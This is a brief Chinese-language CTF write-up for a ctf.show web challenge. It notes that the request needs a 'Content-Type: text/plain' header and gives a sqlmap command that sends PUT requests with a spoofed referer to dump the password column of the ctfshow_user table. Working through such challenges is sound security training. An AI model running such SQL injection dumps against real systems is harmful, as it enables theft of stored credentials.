

# 知识点
# 思路
记得加上Content-Type: text/plain<br />不然data是以表单形式发送
```bash
sqlmap -u "http://00ab91ca-936c-4f20-a55c-fc72fd22c9d3.challenge.ctf.show/api/index.php" --method="PUT" --data="id=1" --referer=ctf.show --headers="Content-Type: text/plain" -D ctfshow_web -T ctfshow_user -C pass --dump 
```


